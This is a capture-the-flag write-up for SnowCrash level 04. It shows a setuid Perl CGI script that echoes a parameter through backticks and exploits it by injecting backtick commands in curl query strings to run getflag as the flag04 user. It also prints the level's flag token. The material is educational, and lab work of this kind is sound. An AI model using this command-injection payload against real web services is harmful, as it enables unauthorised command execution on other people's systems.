 # Level 04

## Vulnerability

Privilege escalation - CGI code injection

## Context

In our home directory, we find a binary ```level04.pl```
```
level04@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

## Solution

Here we see that when we run this Perl script, we run it with owner flag04 permissions (setuid bit 's'). We don't have the permissions to run getflag directly, but maybe we can get this Perl script to run getflag for us.

Let's investigate the script.
```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747                        ## port hint
use CGI qw{param};                      ## set up a Common Gateway Interface
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;                 ## print the output of the echo command, command substitution (backticks)
}
x(param("x"));                          ## Accept one argument "x"
```
So we should run this script with one argument "x". Lets try an example.
```
level04@SnowCrash:~$ ./level04.pl x="whoami"
whoami
```
If we use backtick notation, we can pass a command and ensure it's run and its output captured and echoed.
```
level04@SnowCrash:~$ ./level04.pl x=`whoami`
level04
```
Lets try running it on port 4747 as suggested.
```
level04@SnowCrash:~$ curl '{VM_IP}:4747/level04.pl?x=`whoami`'
flag04
```
Great, now we are executing as flag04. lets try executing getflag.
```
level04@SnowCrash:~$ curl '{VM_IP}:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
